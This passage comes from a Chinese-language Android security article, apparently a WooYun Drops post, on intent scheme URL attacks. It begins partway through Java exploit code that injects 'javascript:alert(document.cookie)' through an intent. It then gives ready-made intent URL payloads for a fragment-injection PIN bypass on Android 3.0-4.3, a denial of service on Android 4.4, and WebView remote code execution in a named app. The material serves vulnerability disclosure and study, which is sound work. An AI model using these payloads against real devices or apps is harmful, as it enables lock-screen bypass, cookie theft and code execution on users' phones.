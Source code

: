 	                startActivity(i);
               
		                try {
	                        Thread.sleep(5000);
	                        }
	 	                      catch (Exception e) {}
              
	                data = Uri.parse("javascript:alert(document.cookie)");	
	                i.setData(data);
               
	                startActivity(i);
	    }
	}

 
**案例5：隐式启动intent包含敏感数据**

暂缺可公开案例,攻击模型如下图。

![](http://static.wooyun.org/drops/20141117/201411171045selector.jpg)

**案例6：Fragment注入(绕过PIN+拒绝服务)**

Fragment这里只提一下，以后可能另写一篇。

	<a href="intent:#Intent;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;launchFlags=0x00008000;SEL;action=android.settings.SETTINGS;end">
    16、bypass Pin android 3.0-4.3 （selector）
	</a><br>

![](http://static.wooyun.org/drops/20141117/201411171045pin.png)

	<a href="intent:#Intent;S.:android:show_fragment=XXXX;launchFlags=0x00008000;SEL;component=com.android.settings/com.android.settings.Settings;end">
    17、fragment dos android 4.4 (selector)
	</a><br>

![](http://static.wooyun.org/drops/20141117/201411171045fragdos.jpg)

**案例7:webview RCE**

	<a href="intent:#Intent;component=com.gift.android/.activity.WebViewIndexActivity;S.url=http://drops.wooyun.org/webview.html;S.title=WebView;end">
    15、驴妈妈代码执行（fixed）
	</a><br>

![](http://static.wooyun.org/drops/20141117/201411171045lvmm.jpg)

##0x06 参考

----------

[http://www.jssec.org/dl/android_securecoding_en.pdf](http://www.jssec.org/dl/android_securecoding_en.pdf)